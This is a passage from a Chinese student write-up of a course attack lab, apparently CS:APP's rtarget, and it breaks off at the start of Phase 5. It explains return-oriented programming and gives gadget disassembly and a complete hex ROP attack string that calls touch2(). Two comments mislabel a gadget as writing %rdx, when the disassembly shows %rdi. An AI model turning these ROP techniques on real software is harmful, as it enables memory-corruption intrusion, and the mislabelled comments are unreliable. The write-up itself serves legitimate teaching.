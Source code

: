 阅读文档、结合所学，有以下总结：

- 一个可被选用的gadget应该在完成攻击者的目标操作后立刻正确编码返回指令，或在`c3`前有一些**独立编码**且**不影响攻击**的代码，如占位操作`nop(0x90)`，不改变寄存器的操作如`test`，或者其他不影响攻击所用的寄存器的操作；
- 我们通过把gadget在程序中的地址覆写到函数的返回地址来执行第一条gadget的指令；
- 如果要通过一连串的gadget完成一系列的操作，我们只需要把一系列gadget的地址在栈中从低地址往高地址排即可。这是因为每当执行一个gadget的时候，`%rsp`指向的是这个gadget的地址所存的位置的'上一行'，gadget执行末尾的`ret`操作时，会执行'上一行'的语句并将`%rsp`再往上移一行；
- 再比如，如果要想向寄存器中存入指定的立即数，可以寻找含`pop`指令的gadget，把立即数放在这个gadget的地址所存的位置的“上一行”。

---

阅读实验文档5.1，它允许我们在rtarget的`start_farm()`和`mid_farm()`之间选取2个gadget来重复Phase 2的攻击。总的思路为：寻找gadget，把注入代码中的`cookie`写入到`%rdi`寄存器中，再调用`touch2()`。

把`cookie`写入`%rdi`最简单的方法就是找一个gadget做`pop %rdi`指令，然后把`cookie`放在这个gadget的地址所存的位置的“上一行”。可惜并没有找到编码这个指令的目标代码，于是只能找一个中介寄存器。通过寻找，寻找到`58`编码`popq %rax`，`48 89 c7`编码`movq %rax, %rdx`，而且它们后面的指令都不会影响gadget正常返回。

```assembly
00000000004019c3 <setval_426>:
# 48 89 c7：movq %rax, %rdi，90是nop
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    

00000000004019ca <getval_280>:
# 58：popq %rax，90正好是nop 
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3     
```

于是攻击字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00	/* pad */
cc 19 40 00 00 00 00 00 /* popq %rax，此时%rsp指向cookie这一行 */
fa 97 b9 59 00 00 00 00 /* cookie(数字0x59b997fa) */
c5 19 40 00 00 00 00 00 /* movq %rax, %rdx */
ec 17 40 00 00 00 00 00 /* touch2() */
```



### 5. Phase 5：Return-Oriented Programming Attack

阅读实验文档5.2，Phase 5重复Phase 3的攻击。相比于Phase 3，由于运行时栈随机化，这导致获得`cookie`字符串的绝对位置变得困难，但在farm中有一个很显眼的函数`add_xy()`，它编码指令`lea (%rdi,%rsi,1),%rax`。我们可以借助`绝对位置=某个已知的绝对位置+偏移量`的思想，把某时刻的栈顶地址存入`%rdi`（或`%rsi`），再把`cookie`字符串与这个地址之间的相对距离存入`%rsi`（或`%rdi`），这样我们就可以把字符串首地址加载到`%rax`中，从而进一步移动到`%rdi`中。

`cookie`字符串应该存在栈的“最深处”（即地址最大处），因为它不是一个可被跳转到的地址，放在中间会切断攻击代码的执行。

大体步骤如下：

#### 1. 把栈顶位置移入`%rdi`
